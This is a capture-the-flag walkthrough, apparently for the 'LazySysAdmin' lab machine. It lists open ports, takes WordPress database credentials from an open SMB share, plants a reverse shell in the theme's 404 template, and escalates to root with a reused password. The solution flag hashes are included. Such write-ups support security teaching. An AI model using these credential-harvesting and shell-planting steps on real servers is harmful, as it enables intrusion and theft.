


# LazySysAdmin

**IP Address:** 192.168.90.36

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22 | ssh | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0) |
| 80 | http | Apache httpd 2.4.7 ((Ubuntu)) |
| 139 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |
| 445 | netbios-ssn | Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP) |
| 3306 | mysql | MySQL (unauthorized) |
| 6667 | irc | InspIRCd |


## Exploitation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. An open SMB share contains the Admin password to wordpress. 

Commands
```
smbclient //$ip/share$
cd wordpress
get wp-config.php
quit
grep 'DB_USER' wp-config.php
grep 'DB_PASSWORD' wp-config.php
```


2. We can now login to the admin portal. 


3. Now we can upload a reverse shell into wordpress. Login and navigate to Appearance > Editor. 


4. Click on 404 Template.



5. Replace the contents with a reverse shell and click on Update File. 



6. Initiate the reverse shell

Commands
```
wget http://$ip/wordpress/wp-content/themes/twentyfifteen/404.php
whoami
cat /home/togie/local.txt
```


## Privilege Escalation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. View the contents of the deets.txt file to find the credentials for the togie user account. 
Commands
```bash
cat /var/www/html/deets.txt
su togie
12345
sudo su
12345
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
514c5475b565f5d7765edba29b6bee96
proof.txt
290b0ac73d4b925fc5e7a62d89aafd87
```